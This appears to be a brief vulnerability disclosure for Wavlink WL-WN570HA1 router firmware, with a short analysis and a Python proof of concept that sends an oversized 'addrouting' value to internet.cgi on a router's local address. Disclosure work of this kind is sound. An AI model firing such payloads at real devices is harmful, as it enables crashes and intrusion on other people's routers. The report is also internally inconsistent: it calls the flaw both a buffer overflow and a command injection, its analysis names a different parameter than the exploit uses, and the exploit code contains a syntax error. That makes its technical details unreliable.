

# buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


get value from gateway



and concate to v32, cause buff overflow


## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'addrouting': + payload})
``` 
